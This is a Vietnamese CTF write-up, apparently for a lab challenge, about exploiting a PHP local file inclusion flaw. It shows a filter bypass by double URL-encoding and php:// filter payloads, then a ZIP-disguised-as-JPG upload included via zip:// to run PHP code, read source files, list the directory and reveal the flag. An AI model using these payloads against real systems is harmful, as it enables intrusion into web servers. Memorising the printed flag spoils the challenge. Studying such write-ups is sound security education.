






# Local File Inclusion - Wrappers

**40 Points** 

**Title**

Abbreviated LFI

**Statement**

Retrieve the flag.

## Analysis:

Website thực hiện upload và hiển thị ảnh:


<p align="center"></p>

Đây là một bài LFI nên ta thử fuzzy các tham số URL. Test với biến `page`, input `..`, ta thấy bị filter (thông báo "Attack Detected"). Thử url-encode thì cũng bị lọc. Thử tiếp với double-encoding thì OK. Input: `%252e%252e`




Cảnh báo lỗi vì không tìm thấy file `%2e%2e.php`. Trước mắt, chúng ta biết được trang web dùng file `upload.php` (lúc mới vào trang thì `page=upload`), nên thử xem nội dung file này. Sử dụng PHP Wrappers Filter, payload `php://convert.base64-encode/resource=upload` và chuyển sang double-encoding:

```
php:%252f%252fconvert%252ebase64-encode%252fresource=upload
```

Tiếp tục bị filter, sau một hồi phân tích ta có bộ lọc sau:

Filter:  `..` `%2f` `php`

Sau một hồi tìm kiếm giải pháp, ta biết được trong ngữ cảnh upload file như thế này có một loại Wrapper được sử dụng là `zip://` ([Compression Wrappers](https://www.php.net/manual/en/wrappers.compression.php)). Wrapper này sẽ unzip file và mở luồng (stream) để đọc/ghi file. Đồng thời, hãy nhớ rằng giá trị của `page` sẽ được nối chuỗi với `.php`, vì vậy ta chỉ có thể tạo code PHP. Như vậy, với tính năng này ta có thể tạo một mã code PHP và nén lại dưới định dạng ZIP và đổi đuôi thành .JPG (vì site chỉ cho mình upload định dạng JPG). Việc này không ảnh hưởng đến quá trình unzip, vì dù đổi đuôi file nhưng [signature](https://en.wikipedia.org/wiki/List_of_file_signatures) của file trong header vẫn là một định dạng ZIP hợp lệ.

Cách sử dụng:

```
zip://archive.zip#dir/file.txt
```
Với `archive.zip` là file cần được giải nén. Sau dấu `#` là đường dẫn đến file cụ thể cần được lấy ra 

## Solution:

Với việc sử dụng Wrapper, ta phải cần biết đường dẫn của file. Trang web sẽ output hình ảnh cho ta thấy nên ta có thể lấy thông tin này trong source code (Ctrl + U). Ví dụ, khi upload một file bất kỳ thành công:

<p align="center"></p>

Code PHP:

```php
<?php
    echo "khangtictoc";
?>
```

Lưu vào file `solve.php` -> (Nén thành file ZIP) -> `solve.zip` -> (Đổi đuôi) -> `solve.jpg`

Upload lên server:

<p align="center"></p>

Hình ảnh sẽ không hiện ra. Of course :)), file upload lên là file zip (nhưng mà đuôi là .png). Vậy mình sẽ lấy đường dẫn file trên và đọc file ra trong source code là `tmp/upload/tp26d9uqM.jpg`. 

> NOTE: Lưu ý loại wrapper này cho phép unzip file ra và thực thi(render) đoạn code 

Payload: (Convert `#` thành `%23` nếu không thì URL sẽ bị hiểu nhầm đi tới internal link `#solve` của page)

```
zip://tmp/upload/tp26d9uqM.jpg%23solve
```

<p align="center"></p>

Nhưng mà path name lại bị quá dài :<< . Cố để path name ngắn nhất có thể thử, rename `solve.php` thành `a.php` rồi thực hiện các bước tương tự như trên. Payload trong trường hợp của mình:

```
zip://tmp/upload/r6LpKOMlo.jpg%23a
```

<p align="center"></p>

Vậy là mình đã thực thi được code PHP. Giờ thì dùng sự sáng tạo để lấy flag thôi :> . Thử đọc file `index.php` (file source của challenge trang hiện tại) và thực hiện tương tự:

```php
<?php
    echo file_get_contents("index.php");
?>
```

Ta lấy được full source code nhưng không có flag hay thông tin liên quan:

```php
<?php
@$p = $_REQUEST['page'];
$t=preg_match("/index/i",$p);
if($p != "" && $t == 0)
{
$haq = "<br /><br /><strong>Attack detected</strong>";

if(strstr($p,"..") !== FALSE)
die("<pre>$haq</pre>");

if(stristr($p,"http") !== FALSE)
die("<pre>$haq</pre>");

if(stristr($p,"ftp") !== FALSE)
die("<pre>$haq</pre>");

if(stristr($p,"php") !== FALSE)
die("<pre>$haq</pre>");

if(strlen($p) > 33)
die("<pre>page name too long</pre>");

if(isset($p))
$inc = sprintf("%s.php",$p);


if(isset($inc))
	include($inc);
}
?>
```

Ta thử liệt kê các file trong đường dẫn hiện tại xem có file flag hay không (chỉ đoán thôi, chứ liệt kê hết cả hệ thống thì lâu lắm). Dùng [scandir](https://www.php.net/manual/en/function.scandir.php)

```php
<?php
print_r(scandir("."));
?>
```
> NOTE: scandir trả về một mảng (associative_array)

<p align="center"></p>

Ta thấy có file `flag-mipkBswUppqwXlq9ZydO.php`, đọc file này ra:

```php
<?php
    echo file_get_contents("flag-mipkBswUppqwXlq9ZydO.php");
?>
```

Nội dung trong file render ra không có gì hết. Vô source code kiểm tra :

<p align="center"></p>

Flag: **lf1-Wr4pp3r_Ph4R_pwn3d**
